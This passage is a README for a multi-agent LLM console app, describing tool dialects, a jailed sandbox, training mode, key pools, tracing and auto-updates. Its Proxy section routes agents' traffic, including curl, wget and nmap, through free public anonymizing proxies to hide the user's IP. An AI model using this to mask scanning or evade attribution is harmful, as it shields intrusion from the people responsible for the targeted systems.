- ⚠️ **It can fight tools — and the app knows it.** A pre-prompt like *"reply with ONLY text / 9 words"* used to make agents narrate tool calls instead of sending them. The tool instructions now state plainly that a **tool call is the one exception** to any brevity rule, and the loop **re-prompts once** if a model only *says* it will use a tool.

</details>

---
## 🧭 The apps notch — one thumb to everything

A pull-tab centred just under the header **dips into the chat area** — a `\___/`
notch sized for a thumb. Tapping it drops the **apps menu**: 🧠 **Brain Lab**,
🧪 **API Lab**, 🔀 the **Routing chart** and 🌐 the **built-in browser** — so a
phone never has to hunt through the header, and the top rail keeps only what you
reach for constantly. It closes on an outside tap, on **Esc**, or when you pick
something. 📱

---

## 🧠 The context assembler & native tool calling

So a long job doesn't quietly fall out of the model's memory mid-task. 🧵

<details>
<summary>Budgeting, compaction, surviving plans and native schemas</summary>

- 📏 **Budgeted against the model's *real* window** — replayed history is sized to
  the model's actual context limit (not a fixed `24k` characters), and each
  oversized tool result keeps its **head and tail** instead of being cut mid-answer.
- 🗜️ **Live-context compaction** — old assistant / `TOOL_RESULT` exchanges are
  compacted before **every** request, so the tool transcript can't crowd the
  conversation out.
- 📋 **The plan survives** — the `todo_write` list is re-injected into the system
  prompt and refreshed after each write, so it doesn't get compacted away halfway
  through.
- 🔧 **Native tool calling** — where the API family supports it, tools are sent as
  **real schemas** (OpenAI, Anthropic and Google shapes) instead of a syntax the
  model has to imitate, with automatic fallback to the prompt protocol if a
  provider rejects them.
- 🧠 **Learned dialect** — see *Dynamic tools* below: the dialect that last worked
  for a `provider::model` is remembered and tried first.

</details>

---
## 🛠️ Tools agents can use

Tick tools per agent in the editor. They're grouped:

<details>
<summary>Sandbox, editor, team, memory and MCP tools</summary>

**🧰 Server-side sandbox (files, web, shell)**
| Tool | What it does |
| --- | --- |
| 🌐 `web_search` | Search the web, no API key (DuckDuckGo → Marginalia → Wiby) |
| 📄 `fetch_url` | Read a page as plain text (refuses private/metadata hosts) |
| 📖 `read_file` / `list_dir` / `glob_files` / `grep_code` / `stat` | Explore a jailed filesystem |
| ✍️ `write_file` | Create or edit a file — **asks you first** |
| 🧑💻 `exec` | Run one command as an **argv array** (no shell), allowlisted — `"timeout"` for slow commands, several calls per reply |
| 🐍 `run_code` | Run a Python/Node/bash snippet (off by default) — `"timeout"` for slow code |
| 🐙 `git` / `git_commit` | Read-only git, plus stage + commit |
| 🚀 `exec_start` / `exec_poll` / `exec_kill` | Background commands: start a server or watcher, poll its output, stop it |

**🖊️ Familiar editor + workflow tools** (the names models were trained on)
`str_replace_editor` (view/create/str_replace/insert), `edit_file` (search/replace), `apply_patch` (Codex **V4A** diffs), `multi_edit` (**all-or-nothing**), `todo_write` (a plan), `think` (a private scratchpad), `http_request` (any method + headers + body).

**🤝 Team + memory + MCP**
`list_agents`, `ask_agent`, `tell_agent` (name one agent, or `"ALL"` for every other agent at once), `read_mailbox`; `remember`, `share`, `recall`, `adopt`; `mcp_list`, `mcp_call`.

Every path is **jailed** server-side, so `../` and symlinks can't escape, and a **protected-paths** list keeps secrets (`storage/`, keys, dotfiles) off-limits even inside a root.

</details>

---
## 🧭 The provider harness

Different providers aren't one API with different URLs. A single registry (`src/Harness.php` + `ui/js/harness.js`) decides, per request:

<details>
<summary>Shapes, dialects, quirks and adding a provider</summary>

- **Which API shape** — OpenAI-compatible, Anthropic Messages, Google `generateContent`, or Ollama — from the **endpoint host**, then provider id, then a model hint.
- **Which tool dialect** to teach — JSON, Claude XML, native tags, or plain — from the provider + model id.
- **Per-family quirks** — auth headers (Bearer / `x-api-key` / `?key=` / Azure `api-key`), request/response/usage/reasoning shapes, streaming envelopes, and output-token caps.
- **Reply parsing is part of the harness** — content, usage and reasoning are read from wherever that family keeps them, including the `{"output":[…],"stats":{…}}` envelope some local runners answer with, and a block list whose `reasoning` text is kept out of the reply.

Adding a provider is one line in the alias table, or just a new provider in the UI. The browser copy is **generated** from the PHP (`php tools/gen-harness.php`) so the two can't drift.

</details>

---
## 🧠 Dynamic tools & the learned dialect



No two models are alike — and the **free** ones are the fussiest of all. 🔧 **Dynamic tools** hands each model the environment it is *actually* running in — the server's 🪟/🐧 OS, the working directory, and which shell commands **really exist** — then shows **one correct example per tool in that model's own dialect** (JSON, Claude XML, native `<|tool_call|>` tags, or plain). No more `findstr` on Linux, no more guessing the syntax: the model is *told*, up front. 🎯

<details>
<summary>Dialects, the rescue retry and the learned winner</summary>

- 🌍 **Speaks the model's language** — OpenAI-style JSON, Claude XML, native tags or plain JSON, detected from the provider + model id (or forced per agent).
- 🛟 **One rescue retry** — if a reply *looks* like a tool call but parses to nothing, the loop re-teaches **once** with a different dialect instead of letting the near-miss become the answer.
- 🩹 **Near misses are read, not dropped** — a guessed name (`list_agent` for `list_agents`, `Read-File`, `read_fil`, `functions.read_file`) is repaired to the tool it meant, and a guessed wrapper (`<|begin|> … <|end|>`, `<begin> … </begin>`, `<|tool|> … <|/tool|>`) parses exactly like `<|tool_call|>`. An invented name and a fence full of prose are still refused.
- 🔇 **Thinking is not a to-do list** — a call is only read out of the model's reasoning channel when the reply itself says nothing. A model that thinks the call instead of sending it is still rescued; a model that explains the syntax (`{"tool":"list_agents"}`) no longer has its own examples executed, which used to run the same tool repeatedly.
- 🗣️ **“I'll call the tool” isn't a call** — the instructions name that failure, show the wrong and right forms side by side in the model's own dialect, warn that an example written in prose can execute, and says to call `think` rather than write about using it.
- 🧠 **Learns the winner** — once a call parses, the dialect that worked is remembered per `provider + model` and tried first next time.
- 🛑 **Off in one click** — Config → Labs → *Dynamic tools* restores the classic behaviour exactly, if you ever want it.

Free, quantised models that used to burn **6–8 calls** guessing now get it right the first time. 🚀

</details>

---
## 🏋 Auto Forming Harnesses, Dialects & Training Mode



Every agent meets every provider through the same door 🚪: the **harness** decides *how* to call it and *which tool dialect* to teach it — automatically, on every request. When you'd rather choose yourself, two dropdowns in 🧠 Brain Lab pin either one per agent. And 🏋️ **Training mode** is where the fleet proves it can use the tools at all: one paced drill, every active agent, all at once. This section is the full manual for all three — the auto-fit, the manual pins, and the drill. 📖

<details>
<summary>Detection order, manual pins and the 12-step drill</summary>

### 🤖🔌 How the auto-fit works

One registry decides per request — `src/Harness.php` in PHP, generated into `ui/js/harness.data.js` by `php tools/gen-harness.php`, so the browser copy can never drift from the server: 🧬

- 🧭 **Shape first** — OpenAI-compatible, Anthropic Messages, Google `generateContent`, or Ollama native — picked from the **endpoint host**, then the provider id, then a model hint. An explicit OpenAI path (`/chat/completions`, `/responses`) or Ollama path (`/api/chat` without `/v1`) wins on sight; OpenRouter stays OpenAI-shaped even for Claude models. 🌐
- 🗣️ **Dialect second** — the API family already implies Claude XML for Anthropic; otherwise a model-name table (Qwen/GLM/Hermes → native tags, …) decides, and anything unrecognised gets plain OpenAI-style JSON. A model id never chooses the *shape* — only the dialect. 🎯
- 🧩 **Quirks ride along** — auth headers (Bearer / `x-api-key` / `?key=`), usage and reasoning shapes, streaming envelopes — and replies are read from wherever that family keeps them, including the `{"output":[…],"stats":{…}}` envelope some local runners answer with. 📦
- ⏱️ **Even pacing is harness-aware** — the rate governor's default ceiling comes from the endpoint host (NVIDIA 40/min, Groq 30, OpenRouter 20, …), so auto-fit models arrive pre-paced; `0 = AUTO` uses each provider's real ceiling. 🐢
- ➕ **Adding a provider is one line** in the alias table — or just add it in the UI and let detection do the rest. 🆕

### 🗣️ Dialects: taught, rescued, remembered

🔧 **Dynamic tools** (Config → Labs, on by default) hands each model the environment it is *actually* running in — the server's 🪟/🐧 OS, working directory, and which shell commands **really exist** — then shows **one correct example per tool in that model's own dialect**: JSON `{"tool":…}`, Claude XML `<function_calls><invoke>`, native `<|tool_call|>` tags, or strict plain JSON. The free, fussy models stop burning calls guessing the syntax. 🎯

And when a reply still misses: 🔍

- 🛟 **One rescue retry** — a reply that *looks* like a call but parses to nothing is re-taught **once** in a different dialect instead of becoming the answer. 🔄
- 🩹 **Near misses are read, not dropped** — `list_agent` for `list_agents`, a guessed wrapper like `<|begin|>…<|end|>` — repaired to what was meant. Invented names and prose fences are still refused. 🙅
- 🧠 **The winner is remembered** — once a dialect parses, it is stored per `provider + model` and tried first next time. Config → Labs → *Remember the working dialect* turns the memo off; detection then re-derives every turn. 🏆
- 🛑 **Off in one click** — Config → Labs → *Dynamic tools* restores the classic fixed instructions exactly, if you ever want them. 🔙

### 🎛️ Choosing by hand — harness & dialect pins

🧠 Brain Lab → per-agent **Approvals & Tools** carries both overrides, and the hint under each always names what auto-detection *would* have picked, so a wrong pin is visible before it 400s: 👀

- 🗣️ **Tool protocol** — `Auto (provider default)`, JSON object, Claude XML, Native tags, or Plain JSON only. On Auto the hint reads `Auto -> <label> for <provider> / <model>`; a stale or unknown saved value is treated as Auto, so a pin can never break a call. 🛡️
- 🧭 **API harness** — `Auto — detect it`, OpenAI-compatible, Anthropic Messages, Google generateContent, or Ollama native. Pinning the shape never changes the dialect and vice versa. ⚠️ OpenRouter serves Claude models over the OpenAI-compatible API — pinning Anthropic there fails, and the hint says so. 💡

### 🏋️ Training mode — the full brief

The 🏋️ **dumbbell in the Agents-tab header** arms it; its popup explains the mode with **Start** and **Cancel** (Stop + recap once running). While armed: 🚦

- ⚡ **Speed up custom forming harnesses and learning dialect via a brute force training method.** This method is especially successful on models above the 1.5b parameters mark (1.4-1.9gb) but not typically any lower. Run the agent through the 1st time, takes around 2-4 minutes with varying degrees of success. Run that same agent a 2nd time, and it's more common to see a 100% success rate (12 calls/0 retries) than anything lower. The system remembers only successful calls and makes sure to use the winning syntax from that point forward. 🏆
- 🐢 **~50% request rate** — every active agent is throttled to half pace (`TRAINING_THROTTLE = 0.5` in `ui/js/training.js`), so the drill exercises patience as well as tools. ⏳
- 🔒 **One drill, nothing else** — the system prompt locks to 12 steps in `training/`, simplest first, worked in order: `think` 🤔, `todo_write` 📝, `echo` 🔊, `now` 🕒, `write_file` ✍️ → `read_file` 📖 → `edit_file` 🩹, `list_dir` 📁, `glob_files` 🔍, `grep_code` 🧵, `exec` ⌨️, and a final `todo_write` to mark everything done. Approval-gated steps (write/edit/exec) come after the free ones — waiting on your Approve button ✅ is part of the lesson, not something to route around.
- 🔁 **Retry until it passes** — a failed step is never skipped; the error comes back with the shape to retry with, so a miss becomes practice instead of a skip. Each pass is logged with `todo_write`. ✅
- ▶️ **Start dispatches the drill** — Start posts it into chat as a turn (or steers it into a running one), so messages 🗨️, map 🗺️, metrics 📊 and trace 🔎 all move exactly as usual. With no active agents it says so instead of arming. 🤫
- 🧠 **Nothing mystical is stored** — model weights never change; *"remember what worked"* means the todo record (kept per agent), the run transcript, and the dialect memo: a tool-call dialect is only remembered after its calls execute ok, and native-API turns never write it. Stop on the same button ends it with a recap: which tools passed, how many retries each took. 📋
- 🧱 **The jail still applies** — the drill resolves under the agent's writable root, never outside it. 🔒

Happy drilling! 💪🚀

</details>

---
## ⏱️ Throttle / limiter / pacer



A 40-requests-per-minute key dies when 16 chart nodes fire at once. The pacer counts outbound calls **per host + key** and waits instead of spending a 429.

<details>
<summary>Buckets, free-tier ceilings and 429 learning</summary>

- **Per-key buckets** — four agents on four keys are four buckets; two agents on one key correctly share.
- **Knows the free tiers** — NVIDIA NIM 40/min, Groq 30, OpenRouter 20, … with a host default for anything unknown. Set the global field to **`0 = AUTO`** to use each provider's real ceiling, or type a number to override everyone. Precedence: **agent lock → provider → global → host default**.
- **Learns from a 429** — a real refusal holds the bucket closed for the server's `Retry-After`.

</details>

---
## 🔑 API pool — rotate your keys



Got several keys for one provider — a handful of free accounts, a team key, a spare? 🗝️ Drop them into the provider's **API pool** and let the console do the shuffling.

<details>
<summary>Rotation, model pinning and 429 cooldowns</summary>

- 🔁 **Rotate after N requests** — set the number and the pool hands out the next key when one reaches it (`0` = every call).
- 🎯 **Pin a key to a model** — tick *Only this model* and enter a model # (like `#63BET7`) or a model id, and that key circles **just that model** while everything else keeps the single key.
- 😴 **429s get rested** — a rate-limit refusal puts a key on a **60-second cooldown** and the next call reaches for another, so one exhausted free tier never stalls the whole provider.
- 🧷 **Your explicit key still wins** — an agent's own Key Override always takes precedence. The feature is **on** by default and stays completely inert until a provider actually carries pool keys (empty pool → the single provider key, exactly as before); switch it off in **Config → Labs** to ignore pools entirely.

It stacks with the pacer: every key is counted in its **own** bucket 📈, so a busy fleet spreads its load instead of slamming one ceiling.

</details>

---
## 🌐 Proxy — route every agent's outbound traffic



Agents leak. 🕵️ By default every model call, every `web_search`, every `fetch_url` and every `curl` an agent runs in the shell leaves from **your** IP. The **Proxy** tab — in the top nav, beside Providers — puts a checkpoint in front of all of it — except endpoints on **your own network**, which a proxy cannot reach anyway.

<details>
<summary>List grades, ping, favourites and global routing</summary>

- 🔄 **REFRESH LIST pulls hundreds at once.** The server reads a live public proxy feed — the kind of list that rotates daily — and keeps only what is usable: alive, HTTP, **IPv4** (this host dials IPv4 for `CURLOPT_PROXY`, so an IPv6 entry would look selected while traffic quietly went direct) and **identity-hiding only**. The header tells you what you got — *340 IPv4 proxies (elite + anonymous)* — and the drop counters explain a short list instead of leaving you to guess.
- 🥇 **Two grades of hiding, and nothing below them.** **ELITE** *(best)* never announces itself and never forwards your address, so the far end sees a stranger. **ANONYMOUS** *(better)* strips your address, but the request may still be identifiable as proxied. Transparent proxies are refused at the source: they are your real IP with extra steps.
- 📡 **Ping and uptime, per row.** **PING** measures a real round-trip through that proxy to `https://httpbin.org/ip`; **PING ALL** sweeps the whole list in one server request with `curl_multi`, so 300 rows take seconds instead of the better part of an hour. **Uptime** comes from the feed's own history — how much of the recent past that endpoint answered — and *Working only* hides the rows that stopped answering.
- ⭐ **Favourites stick.** Star a row and it is kept with your settings rather than in the feed, so a proxy that worked yesterday is one click away after the list rotates.
- ✅ **USE routes everything outside your network, server-side.** The choice is saved in `config.json`, because the **server** is what makes the call — a browser-only setting is invisible to it, which is exactly why picking a proxy once changed nothing. From then on: model relays, `web_search`, `fetch_url` and every shell command that honours proxy variables (`curl`, `wget`, `nmap`) go through it.
- 🔌 **What it never carries: an endpoint on your own network.** `ModelManager::activeProxy()` decides per call, and a loopback, private (`10.x`, `172.16–31.x`, `192.168.x`), CGNAT, link-local, `.local`/`.lan`/`.internal` or bare-hostname endpoint is called **directly** — even when a proxy is selected, and even when one was asked for with that request. A proxy leaves your network; a runner on the LAN is not out there. The **Proxy tab says which hosts it is skipping** while a proxy is selected, so "active proxy" never reads as "everything is proxied" while the model you are watching goes direct.
- 🧹 **Selecting and clearing both write both sides.** The choice lives in the browser *and* in `sandbox.proxy_active`, because the server makes the call. **CLEAR SELECTION** — or removing the active entry — clears `config.json` too and says so only when the server confirms; before v408 it wrote the browser alone, toasted "direct connection", and traffic kept going through the proxy.
- ⚠️ **It does not fail closed — deliberately.** Free lists rot; when the selected proxy dies, calls fail with a curl error, which reads as *the server* being down rather than the proxy. That is a consequence you can *see*, not a silent fall back to your real address.

</details>

---
## 📊 Metrics & 🔎 Run trace

- **Agent cards** show a live line: `⚡ tokens/budget · N req · up 2h · 40/min` — with a tooltip of in/out tokens, billed calls, output cap, context window and last call. Set a **token budget** (Config → Limits) and it shows `used/limit (%)`.
- **🔎 Run trace** (Config → TRACE) is one viewer with three tabs:
  - **RUNS** — a sequenced timeline of every model turn and tool call: time, agent, model/tool, **ms**, **ok/fail**, and token cost — plus totals. A `note` row between two turns is an in-turn re-ask — **nudge — narration** (with the sentence the model wrote instead of a call), **nudge — dialect**, or **nudge — empty reply** — so an extra model call always has its cause printed beside it.
  - **COMMS** — the whole conversation, with the text: your **prompt**, the task a coordinator **delegated**, each agent-to-agent **ask** with the answer that came back, one-way orders and pings, and the **reply** you were sent — each with its duration and a failure marker. Kept in memory (600 hops, 8 000 characters each) for the page-load; none of it is written to `storage/`.
  - **EXEC** — `storage/exec.log` parsed into runs, newest first: time, agent, command, working directory, duration, exit code, and a **no end** marker for a run that started and never reported back. Read-only — the UI has no button that can clear evidence.
  - **SENT** — the exact body each agent posted, kept by the server in `storage/sent.json` (last 20): harness family, model, endpoint, message roles, and a **tools** badge naming the schemas that went out — or **no tools** when the request carried none. That distinction is the one a reply cannot make, and the full JSON is one click away under each row.
- **🗣️ Per-agent, from the map** — an agent's card on the chart shows *Recent messages* with what was said, and **Messages →** opens a drawer scoped to that agent (**Talk** / **Runs**, filtered **All communication** / **Agent to agent**) without giving up a single metric the card already shows — the same button sits on the 2D agent metrics modal. Hovering a beam reads *"Agent A → Agent B: …"*.
- **🧾 The audit trail is two-phase** — each `exec`/`run_code` run writes `phase=start` *before* the process spawns and `phase=end` afterwards, sharing one `run=` id and carrying `agent=<id>`. A command killed mid-run therefore leaves a visible start with no end instead of no record at all, and every line can be tied to the turn that asked for it.

---

## 🕸️ Network & topology



The whole loop as a living map. Every activated agent and provider becomes a glowing node, and each exchange paints a dotted line whose dots travel the way the traffic actually moved.

<details>
<summary>Nodes, traffic, MCP on the graph, ASK and verbose replies</summary>

> 🎛️ **It is also the most expensive thing in the app**, so every visual it owns has a switch in **Config → Desktop** — fog, bloom, the floating floor, auto-rotate, map detail and the frame cap. That card — every knob, what it costs and what it defaults to — is detailed in *Config → Desktop* above. 🧮

- 🧑 **You** — the red node at the heart of the graph, with a live card: 📨 prompts sent, 💬 replies, 🤖 agents online, ⚙️ working now, 🪙 session tokens and 📡 fleet average ping.
- 🤖 **Agent nodes** — one per activated agent, ringed in its own colour, showing its role, model, ⚙️ tool calls and ⬡ token spend, with 💧 ripple rings while it works.
- 🟣 **Provider nebulas** — each provider breathes as a soft cloud, with its agents orbiting inside.
- 🧵 **Traffic lines** — dotted and colour-matched to the model, with dots marching the direction the message actually travelled: ➡️ toward **You** for a reply, ⬅️ from **You** for a request.
- 🕹️ **Controls** — drag to orbit, scroll to zoom, right-drag to pan, click a node for its 📊 metrics, and switch 🧊 3D / 🗺️ 2D or go fullscreen.
- 🔔 **Notifications** — a bell keeps a running list of run errors and warnings so nothing scrolls past unnoticed.
- 🟠 **MCP nodes** — a server you *call* (**amber**) and a friend's client connected *to you* (**sky**) each become a node with the same clickable card: transport, reachability and tool count, tool policy, scope, and recent calls. Outgoing calls animate live (agent → server → agent); incoming friend traffic ticks in from the server's audit log.
- 🗂️ **Two extra tabs on every MCP card** — **Access** edits the node itself (a server's connection plus a per-server **tool allow/deny**; a friend's **read/write/exec** scope and **IP allowlist**); **Permissions** edits the app-wide shell allow/deny lists, interpreter levels, auto-approve / auto-deny and the code interpreter — inline.
- ❓ **Ask a model from its node** — the 3D card carries an **ASK** button that docks a small prompt box with a send button and a **Voice** toggle. The answer lands in a floating box pinned to the graph, isolated from the transcript, while the traffic still animates.
- 🛠️ **Verbose inline replies** — the graph's reply box prints the **real tool work** verbatim (call name, pretty-printed arguments, status, duration, full output) before the closing answer, and only the closing answer is ever read aloud. 🔊

</details>

---
## 🧮 Resource Manager — let the 3D graph rest 😴

The living map is lovely and also, by default, *always on*. **Config → Resource
Manager** adds optional brakes — every switch **off by default**, so nothing
changes until you ask:

<details>
<summary>Pause switches, idle slowdown and gauges</summary>

- 🪟 **Pause when a panel is open** (routing chart, API Lab, Brain Lab, browser, modals) — no point rendering a graph behind a full-screen drawer.
- 🎯 **Pause when the window isn't focused** — switch to another app and it stands down.
- 👀 **Pause when the graph is off-screen** — an `IntersectionObserver`, which also fixes the **mobile** case where the panel is slid off-screen and kept rendering unnoticed.
- 🐢 **Slow down when idle** (default **10 fps**) — idle means no traffic beams, no working agents, settled layout, no recent interaction.
- 🧭 **Two speedometer gauges** + an FPS / frame-ms readout — **CPU** is this app's JS share of each frame; **GPU** is real GPU ms via `EXT_disjoint_timer_query_webgl2` when the browser exposes it, otherwise a clearly-labelled estimate.

</details>

---
## 💭 Thinking & reasoning

Some models show their work. 💭🧩 When a provider streams a reasoning trace, the **thinking panel** opens and shows it live, so you can watch the model deliberate before the answer lands — handy for debugging a stubborn prompt without cluttering the reply. The trace is painted as it streams, accumulated across every step and every round of the turn, and carried into the finished message, so what you watched does not vanish at the commit; a local model that thinks out loud in its reply text keeps those sentences in the same panel instead of losing them, and a "reasoning" block that is really the reply is still suppressed as an echo. The panel is hidden only when the reasoning really is the reply repeated — an answer that happens to restate a phrase from a long trace no longer takes the trace with it.

---

## 🧠 Memory

Agents keep **private notes** and share a small **collective** every agent reads. Tools: `remember` (private), `share` (collective), `recall`, `adopt`. Notes are injected as **recollection, not instructions**, and are fully editable/deletable in Brain Lab.

<details>
<summary>Hardenings, budgeting and sync rules</summary>

Two recent hardenings so memory can't look "off":

- If a model **narrates** a tool call ("I'll use the remember tool") instead of emitting it, the loop **re-prompts once** to actually send it.
- Memory syncs across devices but **unions** by id — a sync can never silently drop a note that exists only in your browser.

Replayed history is budgeted against the model's real context window instead of a fixed 24k characters, and oversized tool output keeps its head and tail rather than being cut mid-result.

</details>

---
## 💾 Export & import

Take your work with you. 📦

- 📤 **Export a session** — download one conversation from the transcript, or `GET /export/{id}`.
- 🗄️ **Back up everything** — `GET /backup` grabs the whole state as a single file.
- 📥 **Import** — `POST /import` restores it on this machine, or another.

---

## 🔁 Updates — check, download, verify, install

The app checks its own published release, shows you **exactly what would change**, and then — if you say so — installs it, keeping a rollback copy of the code you had. 🧾



- 📥 **Config → Updates → DOWNLOAD UPDATE…** fetches the published archive from GitHub into `storage/updates/`, verifies it, extracts a staging copy and diffs it against your install: *N new · N changed · N unchanged · N not in this release* — plus the version each copy calls itself and the archive's SHA-256.
- 🔔 **It checks by itself at load.** The server reads two small files from the published copy (`VERSION` and `ui/js/store.js`) and compares version numbers, so the app knows a release exists **without downloading one**. If the published version is *newer*, a prompt opens offering to install it — on **every load** while the release is pending, because CANCEL means "not now", not "never". The answer is cached for **one hour** — so a reload usually costs no network call at all, and a release is never more than an hour from being noticed.
- 🎞️ **Two numbers, not one.** A release is announced by **either** of two signals, both read from the published copy: **`VERSION`** (repo root — the *release* number, bumped on every release, including one that changes no browser file) and **`APP_VERSION`** in `ui/js/store.js` (the browser *cache-buster*, which moves only when a file the browser caches changes). Before the release number existed the check could see only the cache-buster, so a **PHP-only release was invisible** — it reported *"up to date"* for a release that had shipped.
- 🏷️ **`VERSION` is a plain integer** (`347`, not `2026.10.26`): the comparison is numeric, so a dotted date would never read as newer. It also must never be *behind* `APP_VERSION`, and `tests/php/update.test.php` fails if it is — that is what stops a release from quietly making itself invisible. A published copy with no `VERSION` at all is judged on its cache-buster instead, so older releases keep working.
- 📰 **The notification names what shipped.** When a newer release exists, the server also reads the **top entry of the published `CHANGELOG.md`** — and only then, because that file is the largest in the repo and every byte of it is worthless while the two copies match. The bell says *"Update available — published v349 · RELEASING.md: the two-number checklist"*, and **Config → Updates** keeps a *What's new:* row, so the news survives a reload — a bell entry is raised **once per release** and its list lives only in memory. If the CHANGELOG cannot be read, the release is still announced, just without a name.
- 🔎 **That row opens.** *What's new* is a disclosure, not a teaser: closed it names the release and its opening sentence, opened it lists the entry's **own lines** — every bullet with its bold lead-in, sub-points indented — read from the same parse that produced the one-liner, so the two can never disagree. It is capped at 60 lines / 4000 characters and scrolls in place, because the text arrives over the network; when a cap bites it says so rather than pretending the entry ended. Every line is remote text and is placed as **text**, never as markup — the bold lead-in is a real element built around escaped content.
- 🎛️ **The switch is in Config → Updates:** *Check for updates when the app loads*, **on by default**, with **CHECK NOW** to ask immediately and a one-line answer beneath it (*"Published v337, this copy v344 — this copy is the newer one"*). Both numbers are always shown, because the published copy can be **behind** a local one and an arrow would read as an upgrade that takes you backwards. Off silences the load-time check only — CHECK NOW and DOWNLOAD UPDATE always work.
- 🔇 **A check that cannot run says nothing.** Offline, behind a proxy, or on a PHP with no curl, the load-time check stays quiet: it never blocks boot, never throws, and never claims you are out of date. A failed check is remembered briefly (15 minutes) so an offline machine is not retrying on every reload. The announcement names the *release*; the file-by-file **diff** still takes DOWNLOAD UPDATE.
- ⚠️ **A half-finished check says so.** If one of the two probes cannot be read — a timeout, an HTTP error, a mangled file — the check still answers with the signal it got, but **Config → Updates** stops short of *"up to date"*: it says *"Not fully checked — this copy is v…"* with the reason on the line and the full text in the tooltip, and it names which releases that dead signal would have hidden. The warning is cached with the answer, so an hour-old partial check cannot drift back into reading as a clean one; a hard failure still reports its `error` instead. Silently treating one dead signal as "nothing new" is how six releases went unnoticed.
- 🧭 **One answer, then it runs.** The load-time announcement is a **prompt** with three answers: **BACK UP, THEN UPDATE** (your settings, saved to this machine's Downloads folder as `router-backup-<version>-<timestamp>.json` — that file holds your keys and token, so keep it safe), **UPDATE WITHOUT A BACKUP**, or **CANCEL**. Pick either of the first two and the whole chain runs unattended: download → verify → diff → install → reload. No second confirmation, because the click *was* the confirmation.
